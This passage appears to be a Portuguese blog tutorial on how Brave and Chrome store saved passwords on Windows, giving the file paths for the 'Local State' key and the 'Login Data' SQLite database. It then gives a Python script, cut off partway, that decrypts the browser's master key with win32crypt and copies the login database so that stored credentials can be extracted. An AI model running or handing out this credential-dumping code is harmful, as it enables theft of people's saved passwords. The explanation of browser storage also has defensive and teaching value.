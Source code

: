 # Como o navegador salva as senhas

> *Para demonstração vou utilizar como exemplo o Brave (que é o navegador que eu uso), como ele é baseado no Chrome, tudo que vou mostrar aqui também pode ser utilizado com o Google Chrome, somente sendo necessário alterar o caminho dos diretórios*

Após realizar o processo de criptografia que foi visto acima, essas informações são salvas em dois arquivos diferentes

A chave criptográfica (encrypted key) é salva dentro do arquivo "Local State" que pode ser encontrado seguindo esse caminho:

```
C:\Users\<username>\AppData\Local\BraveSoftware\Brave-Browser\User Data\Local State
```

Abrindo o arquivo e lendo suas informações, é possível encontrar a informação que precisamos

![](/assets/images/BCred/bc-02.png){: .align-center}

Após o processo de criptografia, o resultado final é concatenado com o vetor de inicialização e tudo isso é salvo como sendo a senha criptografada e essa informação é salva dentro de um SQLite3

Esse arquivo tem o nome "Login Data" e pode ser encontrado seguindo o seguinte caminho:

```
C:\Users\<username>\AppData\Local\BraveSoftware\Brave-Browser\User Data\Default\Login Data
```

![](/assets/images/BCred/bc-03.png){: .align-center}

Agora, já temos todas as informações necessárias para extrair as senhas que estão salvas no navegador

# Criando um script para extrair as credenciais

Como já sabemos o caminho dos arquivos e como o AES funciona, basta agora automatizar todo esse processo. Para isso eu vou criar um script em Python

Basicamente o que o script faz é buscar esses arquivos e extrair as informações que precisamos (encrypted_key, vetor de inicialização e a senha criptografada), após isso ele realiza o decode da senha e printa as informações

```python
import os
import json
import base64
import sqlite3
import win32crypt
from Cryptodome.Cipher import AES
import shutil

appdata = os.environ['USERPROFILE']
PATH_LSTATE = os.path.normpath(f"{appdata}\\AppData\\Local\\BraveSoftware\\Brave-Browser\\User Data\\Local State")
PATH = os.path.normpath(f"{appdata}\\AppData\\Local\\BraveSoftware\\Brave-Browser\\User Data")

with open( PATH_LSTATE, "r", encoding='utf-8') as f:
    local_state = f.read()
    local_state = json.loads(local_state)
secret_key = base64.b64decode(local_state["os_crypt"]["encrypted_key"])
secret_key = secret_key[5:] 
secret_key = win32crypt.CryptUnprotectData(secret_key, None, None, None, 0)[1]

login_db = os.path.normpath(r"%s\Default\Login Data"%(PATH))
shutil.copy2(login_db, "Loginvault.db")
conn = sqlite3.connect("Loginvault.db")
```
